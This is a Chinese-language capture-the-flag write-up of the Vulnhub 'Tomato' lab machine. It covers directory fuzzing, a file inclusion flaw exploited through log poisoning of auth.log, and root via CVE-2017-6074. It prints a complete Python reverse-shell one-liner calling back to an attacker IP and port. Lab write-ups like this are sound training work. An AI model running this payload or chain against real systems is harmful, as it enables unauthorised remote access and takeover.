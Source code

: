 ```yaml
---
title: Tomato
date: 2021-12-24 20:35:20
tags: Vulnhub
categories: 文件包含漏洞
---
```


## 信息收集
运行我们的bash脚本，发现目标系统开放了ftp和web服务
![在这里插入图片描述](https://img-blog.csdnimg.cn/b2f1b07f20b74e8cbbf09d8aceb93286.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们尝试是否可以匿名登录ftp，未果
![在这里插入图片描述](https://img-blog.csdnimg.cn/074a7cd93bf64ed3aa33a1e7ba57281e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们访问web服务，发现是一个番茄图片，查看源码也没什么发现
![在这里插入图片描述](https://img-blog.csdnimg.cn/6fbb54145b634516a076f26d15d098ad.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

<!--more-->

我们fuzz一下路径，发现了存在一个antibot_image路径

```bash
dirsearch -u "http://192.168.101.197/" -e * -x404,500,403 -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/fa0487042a3d48909ab79d96a12532a8.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

我们发现存在一个info.php文件
![在这里插入图片描述](https://img-blog.csdnimg.cn/a59aa7bf23b2400cb4fd41b01cea33d7.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
文件的源码提示我们存在文件包含漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/39d170ef77ee482988bbfd4d37ecc20b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们验证漏洞确实是真实存在的
![在这里插入图片描述](https://img-blog.csdnimg.cn/b6bee6c21fc2499999963c8682e6f3cf.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)

## 漏洞利用
我们尝试将一句话写进日志文件中，日志文件的路径为`/var/log/auth.log`，发现已被写入日志并成功执行我们的命令
![在这里插入图片描述](https://img-blog.csdnimg.cn/8fc98d199a4845c1a5e8d72245c7b934.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/bf1f3a8f67a6457998b22f5bd225ccc2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
那么我们就可以查找python是否存在，若存在则可以反弹shell到我们本地的机子上。可以看到python是存在的，并且版本为3.5
![在这里插入图片描述](https://img-blog.csdnimg.cn/4d606cef990543d381d880d6a94f170c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们将执行如下的payload添加到cmd参数后获得一个shell

```python
python3 -c 'import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.101.196",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"])'
```
![在这里插入图片描述](https://img-blog.csdnimg.cn/8ac1207e853b4bfa8655671b22b4939d.png)
## 提权
我们将linpeas.sh脚本上传到靶机上，并执行它
![在这里插入图片描述](https://img-blog.csdnimg.cn/23a8477f887a40c3b6df7f1df69d406b.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
发现存在一个linux内核漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/e962cb6858c242bea4f04c0d8d28b3b1.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
我们发现这个内核漏洞对应的漏洞编号为`CVE-2017-6074`，我们将其编译变上传到靶机上，执行即root
![在这里插入图片描述](https://img-blog.csdnimg.cn/8d5db74c976140df8fd5b0d408768a02.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
![在这里插入图片描述](https://img-blog.csdnimg.cn/335e4f13aa7e4d8c9ebaf95cb4c8749c.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bmz5Yeh55qE5a2m6ICF,size_20,color_FFFFFF,t_70,g_se,x_16)
